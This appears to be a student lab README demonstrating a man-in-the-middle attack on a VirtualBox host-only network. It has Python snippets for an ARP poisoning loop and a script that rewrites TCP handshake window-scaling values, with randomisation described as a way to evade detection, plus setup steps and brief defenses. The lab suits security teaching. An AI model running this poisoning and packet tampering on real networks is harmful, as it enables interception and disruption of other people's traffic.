


# CSE 406 s

# MITM TCP Lab: TCP Window Scaling Attack Demonstration

---

## Executive Summary

This project demonstrates a Man-in-the-Middle (MITM) attack leveraging ARP poisoning and TCP window scaling manipulation in a controlled, virtualized environment. The lab is designed for cybersecurity education, showing how attackers can degrade or disrupt TCP connections by intercepting and modifying handshake parameters. The demonstration uses custom Python scripts and VirtualBox VMs to simulate real-world attack and defense scenarios.

---

## Table of Contents
1. [Project Objective](#project-objective)
2. [Lab Overview](#lab-overview)
3. [Attack Theory](#attack-theory)
    - [ARP Poisoning](#arp-poisoning)
    - [TCP Window Scaling Attack](#tcp-window-scaling-attack)
4. [Detailed Attack Flow](#detailed-attack-flow)
5. [Code Walkthrough](#code-walkthrough)
    - [ARP Poisoning Script](#arp-poisoning-script)
    - [TCP Window Scaling Attack Script](#tcp-window-scaling-attack-script)
    - [TCP Client](#tcp-client)
    - [TCP Server](#tcp-server)
6. [Configuration & Setup Guide](#configuration--setup-guide)
7. [Demonstration Steps & Results](#demonstration-steps--results)
8. [Defense & Mitigation](#defense--mitigation)
9. [Conclusion](#conclusion)
10. [References](#references)

---

## Project Objective

To educate and demonstrate how a MITM attacker can use ARP poisoning and TCP window scaling manipulation to disrupt or degrade TCP connections, and to provide hands-on experience in both executing and defending against such attacks.

---

## Lab Overview

- **Environment:** Three VirtualBox VMs (Attacker, Client, Server) on a Host-Only network.
- **Scripts:** Custom Python scripts for ARP poisoning, TCP manipulation, client, and server.
- **Goal:** Show how an attacker can intercept, modify, and forward TCP packets to affect throughput and reliability.

---

## Attack Theory

### ARP Poisoning
- **Definition:** ARP poisoning is a technique where an attacker sends forged ARP messages onto a local network, associating their MAC address with the IP address of another host, causing traffic to be misrouted through the attacker.
- **Impact:** Enables MITM attacks, allowing interception and modification of network traffic.

### TCP Window Scaling Attack
- **Definition:** TCP window scaling is a mechanism that allows TCP to support large window sizes for high-throughput networks. The scaling factor is negotiated during the TCP handshake.
- **Attack:** By intercepting and modifying the window scaling option or window size during the handshake, an attacker can drastically reduce throughput or disrupt the connection.

---

## Detailed Attack Flow

### Network Attack Flow Diagram


### Attack Sequence Diagram


---

## Code Walkthrough

### ARP Poisoning Script
**File:** `attacker-code/tcp_arp_poison.py`

```python
# Create a raw socket for ARP packets
sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0806))
sock.bind(("enp0s3", 0))
```
**Detailed Explanation:**
- **Raw Socket:** This line creates a raw socket, which allows the script to send and receive packets at the Ethernet (Layer 2) level, bypassing the normal TCP/IP stack. This is necessary for crafting and injecting ARP packets directly onto the network.
- **Binding:** The socket is bound to the `enp0s3` interface (the default VirtualBox network interface). This ensures the ARP packets are sent out on the correct network segment where the client and server reside.
- **Why:** ARP poisoning requires sending custom Ethernet frames, which is not possible with standard sockets. Raw sockets are a common tool for low-level network attacks and protocol manipulation.

---

```python
while True:
    # Poison Client (tell Client that Server IP is at Attacker MAC)
    packet = craft_arp_packet(attacker_mac, server_ip, client_ip, client_mac)
    sock.send(packet)
    # Poison Server (tell Server that Client IP is at Attacker MAC)
    packet = craft_arp_packet(attacker_mac, client_ip, server_ip, server_mac)
    sock.send(packet)
    time.sleep(2)
```
**Detailed Explanation:**
- **Infinite Loop:** The script runs forever, repeatedly sending ARP replies to maintain the attack. ARP cache entries on most systems expire after a short time, so continuous poisoning is required.
- **Poisoning the Client:** The attacker tells the client that the server's IP is now at the attacker's MAC address. This causes the client to send all traffic for the server to the attacker instead.
- **Poisoning the Server:** Similarly, the attacker tells the server that the client's IP is at the attacker's MAC. Now, both client and server route their traffic through the attacker.
- **Maintaining the Attack:** The `time.sleep(2)` ensures ARP replies are sent every 2 seconds, keeping the ARP cache poisoned and the MITM position stable.
- **Why:** Without continuous ARP replies, the legitimate ARP entries would eventually be restored, breaking the MITM.

---

### TCP Window Scaling Attack Script
**File:** `attacker-code/tcp_window_attack.py`

```python
# Check if the packet is a TCP SYN or SYN-ACK (handshake)
if is_syn_or_synack(parsed['flags']):
    total_syns += 1
    print(f"Intercepted SYN/SYN-ACK #{total_syns}: {src_ip}:{parsed['src_port']} -> {dst_ip}:{parsed['dst_port']}")
    if random.random() < attack_probability:
        attack_counter += 1
        handle_attack(parsed, attack_counter, sock_send)
    else:
        print("  → Letting packet pass (stealth)")
        forward_packet(sock_send, packet[14:], parsed['dst_ip'])
```
**Detailed Explanation:**
- **Packet Filtering:** The script inspects every packet, but only acts on TCP handshake packets (SYN or SYN-ACK). These are critical because TCP window scaling is negotiated only during the handshake.
- **Randomized Attack:** With a 70% probability (`attack_probability = 0.7`), the script decides to attack. This randomization makes the attack less predictable and harder to detect by intrusion detection systems.
- **Attack or Stealth:** If attacking, the script manipulates the handshake (see next snippet). If not, it forwards the packet unmodified, maintaining stealth and reducing the risk of detection.
- **Why:** Selective, probabilistic attacks are a hallmark of advanced MITM techniques, as they avoid creating obvious patterns in network traffic.

---

```python
# Attack logic: manipulate window scaling or window size

def handle_attack(parsed, attack_counter, sock_send):
    attack_type = random.choice(['zero_scale', 'reduce_scale', 'reduce_window'])
    if attack_type == 'zero_scale':
        new_packet = craft_tcp_packet(parsed, window_scale=0)
        print(f"  → Attack #{attack_counter}: Set Window Scale = 0")
    elif attack_type == 'reduce_scale':
        scale = random.choice([1, 2])
        new_packet = craft_tcp_packet(parsed, window_scale=scale)
        print(f"  → Attack #{attack_counter}: Set Window Scale = {scale}")
    else:
        normal_scale = random.choice([3, 4, 7])
        new_packet = craft_tcp_packet(parsed, window_scale=normal_scale, reduce_window=True)
        print(f"  → Attack #{attack_counter}: Reduced window size, Scale = {normal_scale}")
    sock_send.sendto(new_packet, (parsed['dst_ip'], 0))
```
**Detailed Explanation:**
- **Random Attack Type:** The attack randomly chooses between three strategies:
  - **Set Window Scale to 0:** This disables TCP window scaling, limiting the maximum window size to 65,535 bytes, which severely restricts throughput on high-latency or high-bandwidth networks.
  - **Set Window Scale to 1 or 2:** Allows some scaling, but still degrades performance compared to the original value.
  - **Reduce Window Size:** Lowers the advertised window size by 30-70%, further throttling the connection.
- **Stealth Features:** The script also randomizes IP ID and TTL fields in the packet, making the attack harder to detect by network monitoring tools.
- **Checksum Recalculation:** After modifying the packet, the script recalculates the TCP checksum to ensure the packet is accepted by the receiver.
- **Why:** Manipulating handshake parameters can cripple a TCP connection without breaking it outright, making the attack subtle and effective.

---

### TCP Client
**File:** `client-code/tcp_client.py`

```python
# Send messages to the server and print responses
for i, message in enumerate(messages, 1):
    print(f"Sending message {i}: {message}")
    client_socket.send(message.encode())
    response = client_socket.recv(1024)
    print(f"Received response: {response.decode()}")
    time.sleep(2)
```
**Detailed Explanation:**
- **Message Loop:** The client sends a series of test messages to the server, simulating normal application behavior.
- **Response Handling:** After each message, the client waits for a response from the server and prints it. This allows you to observe the effect of the attack on application-level communication.
- **Timing:** The 2-second pause between messages makes it easier to observe delays, drops, or slowdowns caused by the attack.
- **Why:** This pattern is typical of real-world client-server applications and is ideal for demonstrating the impact of network-level attacks.

---

### TCP Server
**File:** `server-code/tcp_server.py`

```python
# Handle each client connection

def handle_client(client_socket, client_address):
    while True:
        data = client_socket.recv(1024)
        if not data:
            break
        message = data.decode()
        print(f"Received from {client_address}: {message}")
        response = f"Server received: {message} at {time.strftime('%H:%M:%S')}"
        client_socket.send(response.encode())
```
**Detailed Explanation:**
- **Threaded Handling:** Each client connection is handled in a separate thread, allowing multiple clients to connect simultaneously.
- **Message Processing:** The server receives data, prints it for monitoring, and sends a timestamped response back to the client.
- **Connection Management:** The loop continues until the client disconnects, ensuring robust handling of client sessions.
- **Why:** This design is typical for scalable servers and allows you to see the real-time impact of the attack on server responsiveness and throughput.

---

## Configuration & Setup Guide

detailed setup, configuration, and run instructions

# MITM TCP Lab: Configuration Guide

This guide provides step-by-step instructions to set up and run the virtual lab environment for the TCP Window Scaling Attack demonstration. It covers VM import, network configuration, package installation, shared folder setup, and exact run instructions for Attacker, Client, and Server VMs.

---

## 1. Import and Prepare Virtual Machines

1. **Import VMs in VirtualBox**
   - Use the `.vbox` files in your VM storage directory to import the Attacker, Client, and Server VMs.

2. **Mount Shared Folder in Each VM**
   - In VirtualBox, go to VM Settings → Shared Folders → Machine Folders → Add new shared folder:
     - **Folder Path:** `/home/ninad-nobo/MITM-TCP-Lab/window-scaling-attack/<VM-Name>-code`
     - **Folder Name:** `mitm-lab`
     - **Mount point:** `/media/sf_mitm-lab`
     - Check: Auto-mount
     - Check: Make Permanent

3. **Enable VirtualBox Features**
   - VM Settings → General → Advanced:
     - Shared Clipboard: Bidirectional
     - Drag'n'Drop: Bidirectional

---

## 2. Initial Setup: Use NAT for Internet Access

1. **Set Network Adapter to NAT**
   - Shutdown the VM.
   - In VirtualBox: Settings → Network → Adapter 1 → Set to **NAT**
   - Start the VM.

2. **Install Required Packages**

   **Attacker VM:**
   ```bash
   sudo apt update
   sudo apt install -y python3-pip scapy tcpdump wireshark-tui nmap
   sudo apt install wireshark tshark
   sudo apt install python3-scapy python3-netifaces
   ```

   **Client & Server VMs:**
   ```bash
   sudo apt update
   sudo apt install -y python3-pip
   ```

3. **Install VirtualBox Guest Additions**
   ```bash
   sudo apt install -y build-essential dkms linux-headers-$(uname -r) bzip2
   # Insert Guest Additions CD: Devices → Insert Guest Additions CD Image
   sudo mkdir -p /mnt/cdrom
   sudo mount /dev/cdrom /mnt/cdrom
   sudo /mnt/cdrom/VBoxLinuxAdditions.run
   sudo usermod -aG vboxsf $USER
   sudo reboot
   ```

4. **Start VirtualBox Client Services (after reboot)**
   ```bash
   VBoxClient --clipboard &
   VBoxClient --draganddrop &
   VBoxClient --seamless &
   ```

5. **Mount Shared Folder (if not auto-mounted)**
   ```bash
   sudo mkdir -p /media/sf_mitm-lab
   sudo mount -t vboxsf mitm-lab /media/sf_mitm-lab
   ```

6. **Make Scripts Executable**
   ```bash
   cd /media/sf_mitm-lab
   chmod +x *.py
   ```

---

## 3. Switch to Host-Only Network for Lab

1. **Shutdown the VM.**
2. In VirtualBox: Settings → Network → Adapter 1 → Set to **Host-Only Adapter** (vboxnet0)
3. Start the VM.

---

## 4. Configure Static IP Addresses

On each VM, open the netplan configuration file for editing:
```bash
sudo nano /etc/netplan/01-netcfg.yaml
```

Paste the following content according to the VM role:

### Client VM
```yaml
network:
  ethernets:
    enp0s3:
      addresses: [192.168.56.10/24]
      gateway4: 192.168.56.1
      nameservers:
        addresses: [8.8.8.8]
  version: 2
```

### Server VM
```yaml
network:
  ethernets:
    enp0s3:
      addresses: [192.168.56.20/24]
      gateway4: 192.168.56.1
      nameservers:
        addresses: [8.8.8.8]
  version: 2
```

### Attacker VM
```yaml
network:
  ethernets:
    enp0s3:
      addresses: [192.168.56.30/24]
      gateway4: 192.168.56.1
      nameservers:
        addresses: [8.8.8.8]
  version: 2
```

Save and exit (`Ctrl+O`, `Enter`, `Ctrl+X`), then apply the configuration:
```bash
sudo netplan apply
```

---

## 5. Enable IP Forwarding (Attacker VM Only)

```bash
echo 'net.ipv4.ip_forward=1' | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```

---

## 6. Test Network Configuration

On each VM, run:
```bash
ping -c 4 192.168.56.1
ping -c 4 192.168.56.10
ping -c 4 192.168.56.20
ping -c 4 192.168.56.30

ip addr show enp0s3
ip route show
```

---

## 7. How to Run the Lab

### 1. Start Server VM (Terminal 1 on Server VM):
Run the TCP server script to listen for incoming connections from the client.
```bash
cd /media/sf_mitm-lab
python3 tcp_server.py
```

---

### 2. Start Attacker VM (use multiple terminals on Attacker VM):

**Terminal 1: Start ARP poisoning**
Runs the ARP poisoning script to intercept traffic between client and server.
```bash
cd /media/sf_mitm-lab
sudo python3 tcp_arp_poison.py
```

**Terminal 2: Execute window scaling attack**
Runs the TCP window scaling attack script to manipulate TCP packets and disrupt the connection.
```bash
cd /media/sf_mitm-lab
sudo python3 tcp_window_attack.py
```

**Terminal 3 (optional): Start Wireshark for live packet analysis**
Opens Wireshark to monitor and analyze network traffic in real time.
```bash
wireshark &
```

**Terminal 4 (optional): Use tcpdump to capture packets for later analysis**
Captures all packets on the attacker's network interface for offline analysis.
```bash
sudo tcpdump -i enp0s3 -w attack-capture.pcap
```

---

### 3. Start Client VM (Terminal 1 on Client VM):
Run the TCP client script to connect to the server and exchange data.
```bash
cd /media/sf_mitm-lab
python3 tcp_client.py
```

---

## Quick Start Summary
1. **Import VMs in VirtualBox** using the `.vbox` files in your VM storage directory
2. **Mount `window-scaling-attack/` as a shared folder** in each VM (e.g., `/media/sf_mitm-lab`)
3. **Follow the setup guides** in each `*-code/` folder (`attacker_setup.md`, `client_setup.md`, `server_setup.md`)
4. **Run the scripts** as described above

---

**End of Configuration and Run Guide**

---

## Demonstration Steps & Results

**During the demo:**
- Start the server and client scripts as described in the configuration guide above.
- Run the ARP poisoning and TCP window scaling attack scripts on the attacker VM.
- Use Wireshark/tcpdump to observe:
    - ARP table changes
    - TCP handshake manipulation (window scale/size)
    - Connection drops, slowdowns, or altered data
- Show the effect on client-server throughput and reliability.

---

## Defense & Mitigation

- **Static ARP entries:** Prevent ARP spoofing by manually setting MAC-IP mappings.
- **TLS/SSL encryption:** Protects data even if intercepted.
- **Network segmentation:** Limits attack scope.
- **Monitoring:** Use IDS/IPS to detect ARP anomalies and unusual TCP handshake parameters.

---

## Conclusion

This lab demonstrates the feasibility and impact of MITM attacks using ARP poisoning and TCP window scaling manipulation. It highlights the importance of network security best practices and the need for robust defenses against low-level protocol attacks.

---

## References
- [RFC 1323: TCP Extensions for High Performance](https://datatracker.ietf.org/doc/html/rfc1323)
- [ARP Spoofing Attack](https://en.wikipedia.org/wiki/ARP_spoofing)
- [TCP Window Scaling](https://en.wikipedia.org/wiki/TCP_window_scale_option)
- [Wireshark](https://www.wireshark.org/)